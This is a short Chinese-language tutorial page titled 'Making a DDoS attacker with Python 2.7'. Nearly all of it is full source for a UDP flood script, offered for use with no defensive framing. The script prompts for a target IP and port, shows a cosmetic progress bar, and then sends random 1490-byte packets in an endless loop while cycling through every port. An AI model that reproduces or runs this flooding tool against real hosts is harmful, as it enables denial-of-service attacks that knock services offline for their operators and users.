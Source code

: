 ### 使用Python2.7制作DDOS攻击器

主要代码：

> sock.sendto(bytes, (ip,port))

源代码：

'''

import sys

import os

import time

import socket

import random

#Code Time

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year


##############

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

#############

os.system("clear")

os.system("figlet DDos Attack")



ip = raw_input("IP Target : ")

port = input("Port       : ")

os.system("clear")

os.system("figlet Attack Starting")

print "[                    ] 0% "

time.sleep(1)

print "[=====               ] 25%"

time.sleep(1)

print "[==========          ] 50%"

time.sleep(1)

print "[===============     ] 75%"

time.sleep(1)

print "[====================] 100%"

time.sleep(1)

sent = 0

while True:

     sock.sendto(bytes, (ip,port))
     
     sent = sent + 1
     
     port = port + 1
     
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     
     if port == 65534:
     
       port = 1
       
'''
